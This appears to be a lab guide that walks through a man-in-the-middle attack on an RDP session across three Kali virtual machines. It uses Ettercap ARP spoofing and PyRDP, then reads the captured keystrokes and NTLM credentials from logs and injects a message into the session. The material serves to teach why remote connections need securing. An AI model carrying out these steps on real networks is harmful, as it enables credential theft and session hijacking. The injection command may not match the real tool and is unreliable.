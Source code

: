
# RDP MITM Attack Project

## Objective
Demonstrate a Man-in-the-Middle (MITM) attack on a Remote Desktop Protocol (RDP) session to capture sensitive data and highlight the importance of securing remote connections.

## Prerequisites
- **Operating System**: Kali Linux (3 virtual machines)
- **Tools**:
  - PyRDP (RDP MITM tool)
  - Ettercap (ARP spoofing)
  - Remmina (RDP client)
  - Wireshark (optional, for traffic analysis)
  - xRDP (RDP service on the server machine)

---

## Installation Steps

### Step 1: Environment Setup

#### Install xRDP on Machine A (Server)
```bash
sudo apt update
sudo apt install xrdp -y
sudo systemctl enable xrdp
sudo systemctl start xrdp
sudo ufw allow 3389/tcp
```

#### Verify xRDP Installation
```bash
sudo systemctl status xrdp
```

#### Install Remmina on Machine B (Client)
```bash
sudo apt update
sudo apt install remmina remmina-plugin-rdp -y
```

#### Install Tools on Machine C (MITM)
```bash
sudo apt update
sudo apt install ettercap-text-only -y
pip install pyrdp
sudo apt install wireshark -y
```

---

### Step 2: ARP Spoofing Configuration on Machine C

#### Launch Ettercap
```bash
sudo ettercap -G
```
1. Select Network Interface.
2. Scan for Hosts in the Network.
3. Add Target 1: Machine A (Server).
4. Add Target 2: Machine B (Client).
5. Enable ARP Spoofing.

---

### Step 3: Launch PyRDP on Machine C
```bash
pyrdp-mitm --output-dir ./logs
```

---

### Step 4: Establish RDP Connection from Machine B to Machine A
1. Launch Remmina on Machine B.
2. Configure RDP Connection to the IP of Machine A.

---

### Step 5: Monitor and Analyze Traffic on Machine C

#### View Logs Captured by PyRDP
```bash
ls ./logs
```

#### Analyze Captured Keystrokes and Credentials
```bash
cat ./logs/mitm.log
cat ./logs/ntlmssp.log
```

#### Optional: Analyze Network Traffic with Wireshark
```bash
sudo wireshark
```

---

### Step 6: Inject Commands into RDP Session
```bash
pyrdp-inject --target <Target IP> --message "Hello from MITM"
```

---

### Additional Verification Commands

#### Verify ARP Table on Machine B
```bash
arp -a
```

#### Verify Open Ports on Machine A
```bash
sudo netstat -tuln | grep 3389
```

#### Check Network Connectivity
```bash
ping <IP of Machine A>
```
